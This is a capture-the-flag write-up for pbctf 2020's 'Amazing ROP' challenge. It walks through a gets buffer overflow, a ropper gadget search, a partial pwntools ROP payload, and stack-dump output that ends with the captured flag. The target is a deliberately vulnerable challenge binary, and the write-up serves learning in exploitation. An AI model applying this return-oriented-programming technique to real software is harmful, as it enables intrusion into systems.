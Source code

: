 # Amazing ROP

**Category**: Pwn \
**Solves**: 87

## Challenge

Should be a baby ROP challenge. Just need to follow direction and get first
flag.

`nc maze.chal.perfect.blue 1`

By: theKidOfArcrania

## Solution

> Better write-up by datajerk
> [here](https://github.com/datajerk/ctf-write-ups/tree/master/pbctf2020/amazing_rop).

Running the file locally makes it segfault immediately, so I just no-op'd the
`safeguard` call and didn't think too much about it.

Then I just followed the directions in [bof.c](bof.c).
```c
// This is what you need to do to get the first flag
// void print_flag() {
//   asm volatile("mov $1, %%eax; mov $0x31337, %%edi; mov $0x1337, %%esi; int3" ::: "eax");
// }
```

After doing a bof using the `gets` call, we need to make a ROP chain like `print_flag`.
```
$ ropper
(ropper)> file bof.bin
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] File loaded.
(bof.bin/ELF/x86)> search %esi%
[INFO] Searching for gadgets: %esi%

[INFO] File: bof.bin
...
0x00001396: pop esi; pop edi; pop ebp; ret;   <-- Use this
...
```

Then we can use the convenient gadget `asm("pop %eax; int3; ret");` from
[bof.c](bof.c) to finish.

```python
payload += pwn.p32(offset + 0x1396)  # pop esi; pop edi; pop ebp; ret;
payload += pwn.p32(0x1337)  # esi
payload += pwn.p32(0x31337)  # edi
payload += pwn.p32(0)  # ebp
payload += pwn.p32(offset + 0x13ad)  # pop %eax; int3; ret
payload += pwn.p32(1)  # eax
```

Script output:
```
0xffd7e88c | 00 00 00 00 00 00 00 00 |
0xffd7e894 | 00 00 00 00 00 00 00 00 |
0xffd7e89c | 00 00 00 00 00 00 00 00 |
0xffd7e8a4 | 00 00 00 00 00 00 00 00 |
0xffd7e8ac | ff ff ff ff ff ff ff ff |
0xffd7e8b4 | ff ff ff ff ff ff ff ff |
0xffd7e8bc | ef be ad de 5c 0f 5e 56 |
0xffd7e8c4 | 5c 0f 5e 56 d8 e8 d7 ff |
0xffd7e8cc | 99 d5 5d 56 f0 e8 d7 ff |
0xffd7e8d4 | 00 00 00 00 00 00 00 00 |
Input some text:
Original ret addr: 0x565dd599


0xffd7e88c | 41 41 41 41 41 41 41 41 |
0xffd7e894 | 41 41 41 41 41 41 41 41 |
0xffd7e89c | 41 41 41 41 41 41 41 41 |
0xffd7e8a4 | 41 41 41 41 41 41 41 41 |
0xffd7e8ac | 41 41 41 41 41 41 41 41 |
0xffd7e8b4 | 41 41 41 41 41 41 41 41 |
0xffd7e8bc | 66 6c 61 67 5c 0f 5e 56 |
0xffd7e8c4 | 5c 0f 5e 56 d8 e8 d7 ff |
0xffd7e8cc | 96 d3 5d 56 37 13 00 00 |
0xffd7e8d4 | 37 13 03 00 00 00 00 00 |
You did it! Congratuations!
Returning to address: 0x565dd396
pbctf{hmm_s0mething_l00ks_off_w1th_th1s_s3tup}
Segmentation fault
[31337.1337] bof.bin[29855]: segfault at f7fc7000 ip 00000000f7fc7000 sp 00000000ffd7e8e8
[*] Closed connection to maze.chal.perfect.blue port 1
```
